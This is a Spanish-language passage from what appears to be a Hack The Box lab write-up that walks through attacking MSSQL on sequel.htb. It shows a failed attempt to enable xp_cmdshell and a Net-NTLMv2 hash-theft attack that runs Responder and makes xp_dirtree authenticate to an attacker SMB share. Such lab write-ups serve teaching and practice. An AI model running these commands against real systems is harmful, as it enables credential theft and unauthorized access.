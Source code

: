 #### Attempting to enable (xp\_cmdshell) function on MSSQL (Failed)

Al no disponer de ninguna BBDD interesante, otra de las maneras que podemos de intentar explotar el MSSQL es a través de la función `xp_cmdshell` la cual nos permite ejecutar comandos arbitrarios en el equipo víctima.

Al intentar habilitar este componente, verificamos que el usuario que disponemos actualmente no dispone de privilegios para realizar esta acción.

```sql
SP_CONFIGURE "show advanced options",1
```

<figure><img src="../../.gitbook/assets/3481_vmware_Fm2DLfvNqV.png" alt=""><figcaption></figcaption></figure>

#### MSSQL Hash Steal Attempt \[Net-NTLMv2] (xp\_dirtree) - \[FAILED]

Otro tipo de ataque a realizar al acceder a un MSSQL, es intentar robar el hash NTLMv2 del usuario que corre el servicio SQL.

Este proceso se basa en crear un servidor SMB a través de `smbserver.py` o `responder` y desde el servicio de MSSQL listar el contenido del recurso compartido para lograr obtener el hash NTLMv2 del usuario.

En este caso, verificamos que hemos recibido el hash NTLMv2 del usuario `sql_svc`, el cual antes habíamos comprobado que también era Kerberostable y no logramos crackear su hash. Por lo tanto, con este otro hash del mismo usuario, con el diccionario empleado tampoco lograremos crackear su hash para lograr obtener la contraseña en texto plano.

```sql
responder -I tun0 -v

EXEC Master.dbo.xp_dirtree"\\10.10.16.5\x",1,1;
```

<figure><img src="../../.gitbook/assets/3482_vmware_O39f67oN6r.png" alt=""><figcaption></figcaption></figure>

### Enumerating MSSQL with oscar user

Con el usuario anterior no hemos logrado obtener ningún tipo de información relevante, por lo tanto, procederemos a autenticarnos al MSSQL con el usuario `oscar@sequel.htb`.

Al acceder al MSSQL verificaremos si con este usuario tenemos acceso a alguna BBDD nueva y a verificar si disponemos de acceso a habilitar la función `xp_cmdshell`.
